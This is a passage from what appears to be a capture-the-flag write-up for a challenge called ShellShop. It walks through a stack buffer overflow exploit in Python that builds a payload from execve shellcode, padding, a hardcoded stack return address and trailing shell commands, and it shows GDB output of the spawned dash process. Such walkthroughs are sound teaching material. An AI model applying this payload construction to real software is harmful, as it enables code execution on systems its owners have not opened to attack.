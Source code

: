 ```

buf += shellcode
buf += b'\x41' * (offset - len(nops) - len(shellcode))
buf += struct.pack('<Q', 0x7fffffffdda0 - 2)  # Address of payload on the stack

payload = shop + buf + cmds

with open('payload', 'wb') as f:
    f.write(payload)
```

Notice that we have the address of the payload on the stack hardcoded to `0x7fffffffdda0` - 2 (leaked address - 2). 

***‼️* Important Note 2 - Shellcode length**

The shellcode we’re using simply calls the `execve` syscall. If we’d have opted for other commonly found cleaner shellcode, we could have ended up with a slightly larger size, around 40+ bytes. This would still be within our boundaries (remember we overwrite RBP at offset 55) but it will create another problem. The shellcode could overwrite itself, since it’s executing from the stack and using the stack for various operations:
![Image](/assets/images/ShellShop/Screenshot 2023-11-05 at 17.14.21.png)

Notice the value of RSP and RIP registers. The push instruction will corrupt the code on the stack being executed. To avoid this situation, it’s better to stick with a shellcode as compact as possible.

***‼️* Important Note 3 - pwntools vs stdin input**

When porting our code to `pwntools`, we should provide the correct maximum amount of bytes expected by the `fgets` function call. Otherwise it will hang waiting for more input. So simply append a trailer of NOPs at the end:

```
buf += b'\x42' * (100 - len(buf))  # 100 bytes being read (fgets is waiting ..)
```

***‼️** ***Important Note 4 - ** Execute dash but no shell**

We have all the pieces in place, let’s test the shellcode in GDB/GEF:

```
**gef➤  r < payload**
...
process 2894588 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Inferior 1 (process 2894588) exited normally]
```

The process executes `/usr/bin/dash`, but no interactive shell is being spawned, as we’ve got with our shellcode testing harness. So what gives?

It turns out that the same thing would happen outside GDB as well, and the issue is that the input for our program is redirected, and after spawning the shell, there’s no input and the program simply terminates. The fix to read the flag is straightforward: add a few commands at the end of our buffer that will be executed inside the shell:
